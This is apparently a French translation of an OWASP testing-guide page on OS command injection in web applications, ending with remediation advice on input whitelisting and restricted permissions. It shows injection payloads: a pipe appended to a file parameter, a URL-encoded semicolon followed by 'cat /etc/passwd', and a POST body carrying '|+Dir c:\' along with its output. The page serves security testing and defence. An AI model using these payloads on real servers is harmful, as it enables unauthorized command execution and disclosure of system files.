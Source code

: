 ## Sommaire

Cet article décrit comment tester les injections de commandes systèmes
sur une application. Le testeur va essayer d'injecter une commande
système danas l'application via une requête HTTP.

L'injection de commandes systèmes est une technique utilisée via une
interface web pour exécuter des commandes systèmes sur le serveur web.
L'utilisateur envoie des commandes systèmes sur une interface web afin
de les exécuter. Toute interface web qui ne valide pas correctement ses
entrées est sujette à cette vulnérabilité. En pouvant exécuter des
commandes systèmes, l'utilisateur peut télécharger des programmes
malicieux ou même obtenir des mots de passe. L'injection de commandes
systèmes peut être évitée quand la securité est prise en compte pendant
la conception et le développement d'applications.

## Comment tester

Quand on visualise un fichier sur une application web, le nom du fichier
est souvent affiché dans l'URL. Perl permet de transférer des données
vers une instruction avec un pipe. L'utilisateur peut simplement ajouter
un symbole pipe " |" à la fin du nom du fichier.

Un exemple d'URL avant modification :

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Exemple d'URL modifiée :

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls`
`|`

Cela va exécuter la commande “/bin/ls”.

Ajouter un point-virgule à la fin de l'URL d'une page .PHP, suivi d'une
commande système, va exécuter la commande. %3B est le point-virgule
encodé en URL.
Exemple :
http://sensitive/something.php?dir=%3Bcat%20/etc/passwd

**Exemple**
Considérons le cas d'une application contenant un ensemble de documents
que l'on peut consulter depuis Internet. Si l'on lance WebScarab, on
obtient une requêete HTTP POST comme la suivante :

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf

Dans cette requête POST, on observe comment l'application récupère le
document public. Maintenant, on peut tester s'il est possible d'ajouter
une commande système à injecter dans la requête POST. On essaie ce qui
suit :

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf+
    |+Dir c:\

Si l'application ne valide pas la requête, on peut obtenir le résultat
suivant :

    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+
    |+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0

Dans ce cas, on a réussi une attaque d'injection de commande système.

## Outils

  - OWASP [WebScarab](OWASP_WebScarab_Project "wikilink")
  - OWASP [WebGoat](OWASP_WebGoat_Project "wikilink")

## Références

**White papers**
\* <http://www.securityfocus.com/infocus/1709>

## Remédiation

### Validation

L'URL et les données de formulaire doivent être filtrées pour éliminer
les caractères invalides. Une liste noire de caractères est une option
mais il peut être difficile de penser à tous les caractères à interdire.
Certains peuvent ne pas être encore connus. Une liste blanche contenant
uniquement les caractères autorisés devrait être créée pour valider les
entrées utilisateur. Les caractères oubliés, comme les menaces encore
inconnues, seront éliminées par cette liste.

### Permissions

L'application web et ses composants devraient être exécutés sous des
permissions strictes, interdisant l'exécution de commandes systèmes.
Essayez de vérifier toutes ces informations lors de tests en boite
grise.